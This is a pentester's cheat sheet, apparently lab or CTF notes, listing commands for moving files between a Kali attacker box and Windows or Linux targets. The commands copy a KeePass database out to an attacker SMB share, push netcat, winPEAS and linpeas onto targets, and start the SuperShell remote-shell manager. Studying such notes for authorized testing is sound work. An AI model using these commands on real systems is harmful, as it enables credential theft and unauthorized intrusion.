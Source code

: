 # File Transfer

Kali ⇒ Any

```jsx
python3 -m http.server 80

php -S 0.0.0.0

impacket-smbserver test . -smb2support #kali
copy-item \\192.168.1.1\test\nc.exe .  #win
```

Win ⇒ Kali

```jsx
impacket-smbserver test . -smb2support //kali
copy-item .\Database.kdbx \\192.168.1.1\test\  //powershell
copy .\Database.kdbx \\192.168.1.1\test\  //cmd
```

Linux ⇒ kali

```jsx
Sender: nc -w 3 10.10.10.1 4444 < file1 
Receiver: nc -nlvp 4444 > file1
```

evil-winrm

```jsx
upload  /home/kali/Desktop/tools/privilegeEscalation/win/winpeas/winPEASx64.exe C:\Users\Public
download file .
```

ssh

```jsx
#upload
scp -i id_rsa linpeas.sh dave@192.168.1.1:/dev/shm/
#download
scp -r -i id_rsa dave@192.168.1.1:/dev/shm/out.txt .
```

# **Initial Access**

## Shell


### SuperShell - Shell Management Tool

sudo source config.sh  →access via IP:8888

```jsx
#!/bin/bash

IP_ADDRESS=$(ip addr show tun0 | grep 'inet ' | awk '{print $2}' | cut -d/ -f1)

export EXTERNAL_ADDRESS=$IP_ADDRESS
cd /home/kali/Desktop/Supershell && docker-compose up -d --no-build
```
